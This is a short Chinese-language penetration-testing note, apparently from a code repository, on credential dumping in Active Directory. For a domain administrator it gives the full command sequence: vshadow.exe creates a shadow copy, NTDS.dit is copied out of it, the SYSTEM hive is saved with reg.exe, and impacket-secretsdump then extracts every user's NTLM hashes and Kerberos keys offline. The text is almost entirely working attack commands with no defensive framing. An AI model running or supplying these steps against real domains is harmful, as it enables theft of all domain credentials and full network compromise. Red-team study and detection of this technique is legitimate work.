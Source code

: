 作为域管理员，我们有能力滥用vshadow工具来创建一个影子副本，从而允许我们提取Active Directory数据库NTDS.dit数据库文件。一旦我们获得了该数据库的副本，我们就可以在我们的本地Kali机器上离线提取每个用户的凭据。

条件：
域管权限

利用：
```
###创建影子副本 -nw禁用写入器，加快备份创建速度    -p指定备份的卷
vshadow.exe -nw -p C:

##示例
- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2

###将整个AD数据库从影子副本复制到C盘根目录
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak

###保存Windows注册表中的SYSTEM hive，将这两个bak文件复制到Kali机器上。
reg.exe save hklm\system c:\system.bak

###本地解析、提取credential。  -ntds指定ntds.dit文件，-system指定system文件，LOCAL指定本地解析
kali> impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

成功获取了每个AD用户的NTLM哈希和Kerberos密钥

```






